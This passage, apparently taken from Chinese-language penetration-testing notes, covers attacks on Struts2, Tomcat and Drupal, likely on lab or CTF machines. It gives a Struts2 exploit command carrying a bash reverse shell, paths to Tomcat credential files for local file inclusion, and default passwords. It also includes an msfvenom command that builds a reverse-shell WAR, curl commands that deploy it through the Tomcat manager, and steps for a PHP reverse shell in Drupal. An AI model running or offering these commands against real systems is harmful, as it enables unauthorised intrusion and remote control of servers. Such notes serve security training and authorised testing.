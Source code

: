 ```bash
python2 exp1.py http://192.168.0.100:8080/struts2_2.3.15.1-showcase/ "bash -i >& /dev/tcp/192.168.0.104/1337 0>&1"
```

- **tomcat 的用户信息配置文件路径 (配合已找到的 LFI)**
```
/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
/opt/tomcat/conf/tomcat-users.xml
```

- **Password:**
```
tomcat:s3cret
admin:admin
```

- **War 包反弹 shell，如果返回 OK , 就可能可以继续利用**
```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.129.212.97:8080/manager/text/list   
```
生成有效负载
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.11 lport=2233 -f war -o rev.10.10.14.11-2233.war
```
建立监听后执行上传文件命令，访问上传的路径后，得到反弹 shell 
```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.129.212.97:8080/manager/text/deploy?path=/xek --upload-file rev.10.10.14.11-2233.war
```
`--upload-file` ： 使用 HTTP PUT 上传
`?path=/xek` : 上传的路径 , ( `http://10.129.212.97:8080/xek`)


### Drupal
version : /CHANGELOG.txt

- Exploit Version **Drupal 7.x**
	Drupal 7.x Module Services - Remote Code Execution
	Drupal endpoint_path 路径 : **/usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt**
	
- Drupal 默认凭据 : **admin/admin**

 **Reverse Shell：**
查看 Modules 下有没有可利用的模块
![](photos/Pasted%20image%2020240115214504.png)

点击 Add content ，添加 page，写入一个反弹 shell 的 php，简单修改一下，下面**文本类型选择 php code**

![](photos/Pasted%20image%2020240115220742.png)
